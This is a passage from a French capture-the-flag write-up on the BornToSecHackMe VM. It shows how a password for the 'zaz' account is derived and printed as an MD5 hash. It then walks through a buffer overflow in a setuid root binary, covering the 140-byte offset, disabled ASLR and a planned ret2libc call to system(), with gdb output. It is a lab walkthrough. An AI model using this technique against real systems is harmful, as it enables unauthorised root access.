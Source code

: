 J'ai balancé le résultat sur https://inexorabletash.github.io/jslogo/ et ça affiche les lettres `SLASH`. Le mot de passe n'est pas utilisable tel quel pour le compte `zaz`, il faut le hasher en MD5 ce qui donne `646da671ca01bb5d84dbb5fb2238dc8e`. Là encore c'est un point non mentionné mais qui fait toute la différence.

## Overflooooooooooooooooooooooow

Cette fois ça y est, on est sur le boss final :

```
-rwsr-s--- 1 root     zaz  4880 Oct  8  2015 exploit_me
```

On a donc ce binaire setuid, non strippé et qui ne semble rien faire de plus qu'un `strcpy` et un `puts`.

```shellsession
zaz@BornToSecHackMe:~$ ./exploit_me toto
toto
zaz@BornToSecHackMe:~$ ./exploit_me totoooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo
totoooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo
Segmentation fault (core dumped)
```

Petit coup d'oeil à l'output de `dmesg` :

`[48067.977397] exploit_me[4634]: segfault at 6f6f6f6f ip 6f6f6f6f sp bffff6d0 error 14`

On a donc le controle sur le pointeur d'instruction. On peut jouer directement avec `dmesg` et on en conclut après quelques essais qu'il faut 140 caractères avant d'entamer l'adresse de retour.

La présence d'un 0 dans le fichier `/proc/sys/kernel/randomize_va_space` indique que l'ASLR n'est pas activé sur la VM. On a récupérer l'adresse de `system()`, trouver une chaine de caractères (n'importe laquelle) qui permettra de spécifier une commande à exécuter et ça devrait faire l'affaire :

```nasm
zaz@BornToSecHackMe:~$ gdb -q ./exploit_me
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) disass main
Dump of assembler code for function main:
   0x080483f4 <+0>:     push   %ebp
   0x080483f5 <+1>:     mov    %esp,%ebp
   0x080483f7 <+3>:     and    $0xfffffff0,%esp
   0x080483fa <+6>:     sub    $0x90,%esp
   0x08048400 <+12>:    cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:    jg     0x804840d <main+25>
   0x08048406 <+18>:    mov    $0x1,%eax
   0x0804840b <+23>:    jmp    0x8048436 <main+66>
   0x0804840d <+25>:    mov    0xc(%ebp),%eax
   0x08048410 <+28>:    add    $0x4,%eax
   0x08048413 <+31>:    mov    (%eax),%eax
   0x08048415 <+33>:    mov    %eax,0x4(%esp)
   0x08048419 <+37>:    lea    0x10(%esp),%eax
   0x0804841d <+41>:    mov    %eax,(%esp)
   0x08048420 <+44>:    call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:    lea    0x10(%esp),%eax
   0x08048429 <+53>:    mov    %eax,(%esp)
   0x0804842c <+56>:    call   0x8048310 <puts@plt>
   0x08048431 <+61>:    mov    $0x0,%eax
   0x08048436 <+66>:    leave
   0x08048437 <+67>:    ret
End of assembler dump.
(gdb) b *main
Breakpoint 1 at 0x80483f4
(gdb) r
Starting program: /home/zaz/exploit_me
```